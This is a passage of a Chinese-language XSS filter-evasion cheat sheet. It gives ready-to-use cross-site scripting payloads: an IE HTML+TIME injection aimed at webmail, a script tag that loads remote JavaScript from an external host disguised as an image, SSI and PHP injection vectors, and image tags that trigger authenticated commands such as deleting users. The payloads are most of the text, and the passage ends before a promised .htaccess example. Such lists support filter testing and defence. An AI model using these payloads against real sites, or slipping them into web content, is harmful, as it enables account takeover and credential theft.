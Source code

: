 它展示的 Grey Magic 是怎样攻击 Hotmail 和 Yahoo!的。它是仅仅可以工作在ie和使用了ie渲染引擎的Netscape 8.1。并且这段代码需要放在html域body标签之间。

```
<HTML><BODY>
<?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
<?import namespace="t" implementation="#default#time2">
<t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
</BODY></HTML>
```

* * *

### 简单的修改字符去绕过过滤器对 ".js"的过滤

你可以重命名你的javascript文件为一个图片作为xss向量

```
<SCRIPT SRC="http://ha.ckers.org/xss.jpg"></SCRIPT>
```

* * *

### SSI (服务器端包含)

这需要SSI被安装在服务器端去使用这个xss向量。但可能我并不需要提及这点，因为如果你可以运行命令在服务器端，那么毫无异味会有更加严重的问题存在。

```
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://ha.ckers.org/xss.js></SCRIPT>'"-->
```

* * *

### PHP

需要php被安装在服务器端去使用这个xss向量。同样的，如果你可以运行恩任何远程脚本，那么将会有更加严重的问题。

```
<? echo('<SCR)';
echo('IPT>alert("XSS")</SCRIPT>'); ?>
```

* * *

### 嵌入命令的IMG

它是工作于那些需要用户认证后才可以执行命令的当前域页面。它将可以创建删除用户（如果访问者是管理员），或是寄送某些凭证等等，虽然他是较少被使用但是是非常有用的。

```
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
```

* * *

### 嵌入命令的IMG II

这是更加的可怕因为并没有特别的标识符去使它看起开来可疑。除非不允许引入第三方域的图片。这个向量是使用一个 302 or 304（或其他可行方案）去重定向一个图片地址为带有某些命令的地址。因此一个正常的图片标签代码<IMG SRC="a.jpg">可以是带有命令的xss向量。但是用户看到的仅仅是正常的图片链接地址。下面是一个.htaccess（apche下）配置文件去完成这个向量。（感谢Timo为这部分。）
